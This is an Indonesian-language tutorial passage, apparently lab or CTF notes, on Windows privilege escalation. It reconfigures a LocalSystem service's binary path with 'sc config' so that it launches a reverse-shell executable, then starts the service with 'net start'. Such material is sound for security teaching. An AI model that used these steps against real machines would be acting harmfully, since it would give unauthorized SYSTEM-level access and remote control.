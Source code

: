 Lalu kita cek konfigurasi dari service tersebut
```
sc qc <nama service>
```
```
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

```
Lihat pada SERVICE_START_NAME service tersebut dijalankan oleh SYSTEM (hak akses tertinggi). Dan juga pada START_TYPE valuenya DEMAND_START yang artinya di start secara manual

Selanjutnya kita cek status servicenya, apakah sedang berjalan atau tidak
```
sc query <nama service>
```
Lihat pada STATE apakah STOPPED or RUNNING

Bagaimana cara melakukan PRIV ESC? perhatikan lagi informasi service berikut :

```

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

Karena kita memiliki hak akses untuk merubah konfigurasi, maka kita bisa merubah **BINARY_PATH_NAME** menjadi PATH dimana kita menyimpan file untuk melakukan reverse shell. Perintahnya adalah

```
sc config <nama_service> binpath= "\"C:\myFolder\reverse.exe\""
```
Sehingga BINARY_PATH_NAME berubah menjadi `C:\myFolder\reverse.exe`, untuk menerapkan perubahan pada konfigurasi, perintahnya
```
net start <nama_service>
```
Dan jika berhasil maka akan BOOM BOOM PWn3D!
